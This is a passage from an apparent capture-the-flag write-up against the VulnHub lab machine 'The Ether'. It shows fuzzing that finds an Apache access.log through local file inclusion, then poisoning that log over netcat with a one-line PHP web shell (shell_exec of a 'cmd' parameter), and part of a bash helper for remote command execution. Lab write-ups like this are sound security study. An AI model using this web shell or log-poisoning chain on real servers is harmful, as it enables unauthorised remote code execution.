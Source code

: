 ```
# ./fuzz.sh "/var/www/html/theEther.comFUZZ" "^[0-9]" /usr/share/seclists/Discovery/Web_Content/quickhits.txt
```
```
...
[+] Trying /var/www/html/theEther.com/log.sqlite
[+] Trying /var/www/html/theEther.com/log.txt
[+] Trying /var/www/html/theEther.com/log/
[+] Trying /var/www/html/theEther.com/log/access.log

[!] Found: http://192.168.198.130/?file=/var/www/html/theEther.com/log/access.log
```

### LFI to Shell

Now that I've found `access.log`, I can corrupt it by sending PHP code through `netcat`.

```
# nc 192.168.198.130 80
```
```
<pre><?php echo shell_exec($_GET['cmd']);?></pre>
HTTP/1.1 400 Bad Request
Date: Thu, 08 Feb 2018 20:22:21 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 304
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at theEther.com Port 80</address>
</body></html>
```

With this in mind, I wrote another script to clean up the output from the remote command execution.

```bash
# cat cmd.sh
#!/bin/bash

HOST=192.168.198.130
ACCESS=/var/www/html/theEther.com/log/access.log
CMD="$@"

function urlencode() {
    echo -n "$1" | xxd -p | sed -r 's/(..)/%\1/g'
}

while getopts ":e" opt; do
    case $opt in
        e)
            shift 1
            CMD=$(urlencode "$@")
            ;;
        \?)
            echo "Invalid option: -$OPTARG" >&2
            ;;
    esac
done
```

[1]: https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/
[2]: https://www.vulnhub.com/
[3]: https://httpd.apache.org/docs/2.4/mod/core.html#documentroot
[4]: https://github.com/danielmiessler/SecLists